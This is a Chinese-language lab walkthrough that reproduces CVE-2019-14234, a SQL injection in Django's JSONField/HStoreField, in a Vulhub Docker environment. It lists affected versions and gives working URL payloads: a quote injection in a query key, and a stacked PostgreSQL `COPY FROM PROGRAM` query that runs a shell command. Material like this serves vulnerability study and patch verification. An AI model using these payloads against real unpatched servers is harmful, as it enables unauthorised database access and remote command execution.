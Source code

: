 # Django JSONField/HStoreField SQL注入漏洞 CVE-2019-14234

## 漏洞描述

Django在2019年8月1日发布了一个安全更新，修复了在JSONField、HStoreField两个模型字段中存在的SQL注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2019/aug/01/security-releases/
- https://www.leavesongs.com/PENETRATION/django-jsonfield-cve-2019-14234.html

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。Django自带的后台应用Django-Admin中就存在这样的写法，我们可以直接借助它来复现漏洞。

## 影响版本

```
Django (1.11.x) Version < 1.11.23
Django (2.1.x) Version < 2.1.11
Django (2.2.x) Version < 2.2.4
```

## 环境搭建

Vulhub执行如下命令编译及启动一个存在漏洞的Django 2.2.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

首先登陆后台`http://your-ip:8000/admin/`，用户名密码为`admin`、`a123123123`。

登陆后台后，进入模型`Collection`的管理页面`http://your-ip:8000/admin/vuln/collection/`：

![image-20220222163035330](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221630392.png)

然后在GET参数中构造`detail__a'b=123`提交，其中`detail`是模型`Collection`中的JSONField：

```
http://your-ip:8000/admin/vuln/collection/?detail__a%27b=123
```

可见，单引号已注入成功，SQL语句报错：

![image-20220222163246655](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221632754.png)

命令执行，执行`touch /tmp/awesome_poc`，可以替换成其他命令并且执行。

```
http://your-ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'touch /tmp/awesome_poc'--%20 
```

提示`no results to fetch`即为执行成功。

![image-20220222164004504](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221640588.png)


